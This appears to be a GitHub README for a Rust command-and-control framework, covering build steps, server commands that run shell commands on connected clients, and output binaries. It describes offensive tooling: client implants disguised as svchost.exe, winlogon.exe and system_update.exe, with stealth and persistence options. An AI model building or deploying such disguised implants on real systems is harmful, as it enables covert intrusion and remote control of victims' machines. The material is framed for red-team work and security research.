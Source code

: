 # Advanced C2 Framework in Rust

⚠️ **LEGAL DISCLAIMER**: This software is intended for authorized penetration testing, red team exercises, educational purposes, and security research ONLY. The authors are not responsible for any misuse of this software. Always ensure you have explicit permission before testing on any systems.

## 🚀 Quick Start - Build and Run

### Prerequisites
- **Windows**: Install Rust from https://rustup.rs/ + Visual Studio Build Tools
- **Linux/macOS**: Install Rust: `curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh`

### Build Everything
```batch
# Windows
test.bat    # Test first
build.bat   # Build everything

# Linux/macOS  
./test.sh   # Test first
./build.sh  # Build everything
```

### Run the Framework
```batch
# Terminal 1 - Start Server
cd output
c2_server.exe

# Terminal 2 - Start Client (for testing)
cd output
c2_client.exe --server 127.0.0.1 --no-stealth --no-persistence
```

### Basic Usage
```bash
# In server terminal
C2> clients                              # List connected clients
C2> info <client_id>                     # Show client details  
C2> exec <client_id> whoami              # Execute command
C2> exec <client_id> systeminfo          # System information
C2> results <client_id>                  # View command results
C2> exit                                 # Shutdown server
```

## 📁 What You Get After Building

```
output/
├── c2_server.exe           # Main C2 server
├── c2_client.exe           # Main client
├── svchost.exe            # Disguised client (Windows)
├── winlogon.exe           # Disguised client (Windows)  
├── system_update.exe      # Disguised client (Windows)
├── server_config.toml     # Server configuration
├── client_config.toml     # Client configuration
└── README.md              # Usage guide
```
